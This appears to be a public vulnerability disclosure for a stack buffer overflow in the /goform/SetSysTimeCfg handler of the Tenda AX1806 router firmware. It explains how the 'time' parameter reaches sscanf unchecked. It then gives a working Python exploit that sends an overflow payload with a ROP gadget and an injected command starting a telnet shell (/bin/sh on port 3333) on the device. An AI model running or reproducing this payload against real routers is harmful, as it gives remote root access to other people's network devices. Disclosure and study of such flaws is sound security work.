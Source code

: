 Affect device: Tenda Router AX1806 v1.0.0.1(https://www.tenda.com.cn/download/detail-3306.html)

Vulnerability Type: Stack overflow

Impact: Remote Code Execution && Denial of Service(DoS)

# Vulnerability description

This vulnerability lies in the `/goform/SetSysTimeCfg` page which influences the lastest version of Tenda Router AX1806 v1.0.0.1: https://www.tenda.com.cn/download/detail-3306.html



There is a stack buffer overflow vulnerability in the `fromSetSysTime` function.

The `v6` variable is directly retrieved from the http request parameter `time`.

Then `v6` will be splice to stack by function sscanf without any security check,which causes stack overflow.

![image-20220208175329650](image/1.png)

So by POSTing the page `/goform/SetSysTimeCfg` with proper `time`, the attacker can easily perform a **Remote Code Execution** or **Deny of Service(DoS)** with carefully crafted overflow data.

# Exp 

Remote Code Exection

```python
# Title: Exploit of Tenda-AX3's buffer overflow 
# Author: R1nd0&c0rn
# Date: 2022
# Vendor Homepage: https://www.tenda.com.cn/
# Version: AX1806 v1.0.0.1

import requests
from pwn import *

gadget = 0x37208

url = "https://192.168.2.1/goform/SetSysTimeCfg"

timeType = "manual"

time = b"2022-01-01 "

time += b"a" * 0x380 
time += b"bbbb"
time += b";"
time += b"/usr/sbin/utelnetd -l /bin/sh -p 3333"# command
time += b":"
time += b"c" * 0x374 + p32(gadget)

r = requests.post(url, data={'timeType': timeType, 'time': time},verify=False)
print(r.content)
```


